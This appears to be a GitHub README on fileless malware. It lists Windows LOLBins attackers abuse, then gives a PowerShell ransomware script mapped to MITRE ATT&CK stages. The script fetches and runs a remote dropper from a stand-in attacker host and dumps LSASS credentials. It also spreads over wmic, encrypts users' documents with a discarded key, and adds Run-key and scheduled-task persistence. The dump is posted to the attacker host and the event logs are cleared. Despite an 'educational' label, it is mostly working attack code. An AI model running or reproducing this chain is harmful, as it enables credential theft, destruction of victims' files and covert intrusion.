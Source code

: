 
# NSFW - Fileless Malware

![430945464-512965cb-5a4b-4e4b-9ffb-c3666278bd7f](https://github.com/user-attachments/assets/3108f067-a49b-45c1-b1c4-07691881c76b)


## LOLBins 101: Living off the Land Binaries & Scripts

**LOLBins** are legitimate Windows utilities repurposed by attackers to execute payloads, evade detection, and persist. Because they're trusted system tools, they offer stealth and flexibility for malware operations.
## Common LOLBins and Use Cases

| LOLBin | Abuse | Tactics |
|--------|-------|---------|
| `rundll32.exe` | Execute DLLs | Code exec, EDR bypass |
| `mshta.exe` | Run HTA payloads | Script exec, sandbox evasion |
| `regsvr32.exe` | Load COM DLLs | Fileless exec, C2 proxy |
| `wmic.exe` | WMI command exec | Proc launch, lateral move |
| `cmd.exe / powershell.exe` | Script runners | Payloads, persistence |
| `msbuild.exe` | Inline C# compile/exec | Fileless malware |
| `certutil.exe` | Download/decode files | Exfil, LOLBin abuse |
| `bitsadmin.exe` | Fetch remote files | Delivery, persistence |
| `schtasks.exe` | Schedule task | Priv escalation, persistence |
| `esentutl.exe` | Copy/exec files | Exfil, stealth ops |

---

## Theoretical Example of '100% Fileless' Ransomware Using the MITRE ATT&CK Framework

```powershell
# Advanced Ransomware Simulation Workflow - Single Execution PowerShell Script
# Educational & Research Purposes Only (Controlled Lab Environment)
# MITRE ATT&CK Mapped per Stage

# 1️⃣ Initial Access (T1190 - Exploit Public-Facing Application)
$payloadUrl = "http://malicious.com/dropper.ps1"
IEX(New-Object Net.WebClient).DownloadString($payloadUrl)

# 2️⃣ Execution (T1059.001 - Command and Scripting Interpreter: PowerShell)
$encPayload = "[Base64-Encoded Payload]"
$decodedPayload = [System.Convert]::FromBase64String($encPayload)
[System.Reflection.Assembly]::Load($decodedPayload)

# 3️⃣ Privilege Escalation (T1548 - Abuse Elevation Control Mechanism)
Start-Process -FilePath "powershell.exe" -ArgumentList "-ExecutionPolicy Bypass -File C:\Windows\Temp\elevate.ps1" -Verb RunAs

# 4️⃣ Credential Access (T1003.001 - LSASS Dumping)
Invoke-Expression "rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full"

# 5️⃣ Discovery (T1082 - System Information Discovery)
$sysInfo = Get-WmiObject Win32_ComputerSystem | Select-Object Manufacturer, Model, Name, Domain, UserName
$networkInfo = Get-NetAdapter | Select-Object Name, MacAddress, Status
Write-Output $sysInfo
Write-Output $networkInfo

# 6️⃣ Lateral Movement (T1021.001 - Remote Desktop Protocol)
cmd.exe /c "wmic /node:targetPC process call create 'powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\payload.ps1'"

# 7️⃣ Impact - Advanced Encryption (T1486 - Data Encrypted for Impact)
$targetFiles = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.txt,*.docx,*.xls -Recurse
foreach ($file in $targetFiles) {
    $content = Get-Content $file.FullName -Raw
    $key = (1..32 | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) }) -join ''
    $aes = New-Object System.Security.Cryptography.AesManaged
    $aes.Key = [System.Text.Encoding]::UTF8.GetBytes($key.PadRight(32, 'X'))
    $aes.IV = New-Object byte[] 16
    $encryptor = $aes.CreateEncryptor()
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($content)
    $encryptedContent = [Convert]::ToBase64String($encryptor.TransformFinalBlock($bytes, 0, $bytes.Length))
    Set-Content -Path $file.FullName -Value $encryptedContent
}

# 8️⃣ Persistence (T1547.001 - Registry Run Key & Scheduled Task)
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "MaliciousProcess" -Value "powershell -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" -PropertyType String
schtasks /create /tn "MaliciousTask" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\persist.ps1" /sc onlogon /rl highest

# 9️⃣ Exfiltration (T1041 - Exfiltration Over C2 & Encrypted Channels)
$exfilData = [Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Windows\Temp\lsass.dmp"))
Invoke-WebRequest -Uri "http://malicious.com/exfil" -Method Post -Body $exfilData

# 1️⃣0️⃣ Defense Evasion & Cleanup (T1070 - Indicator Removal, Log Clearing, Process Masquerading)
Remove-Item -Path C:\Windows\Temp\* -Force -Recurse
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
cmd.exe /c "attrib +h +s C:\Windows\Temp\*"
```

## Additional Resources
- [PrintNightmare Guide](https://itm4n.github.io/printnightmare-not-over/)
- [PrintNightmare](https://cybersparksdotblog.wordpress.com/2024/11/25/windows-print-spooler-elevation-of-privilege-vulnerability-eop-the-printnightmare-of-2021/)
- [LOLOL Farm](https://lolol.farm/)
- [ATT&CK MITRE](https://attack.mitre.org/software/S0697/)
- [LOLGEN](https://lolgen.hdks.org/)
- [Fileless Malware](https://en.wikipedia.org/wiki/Fileless_malware)
- [Dll injection](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
- [Print drivers](https://github.com/jacob-baines/concealed_position)



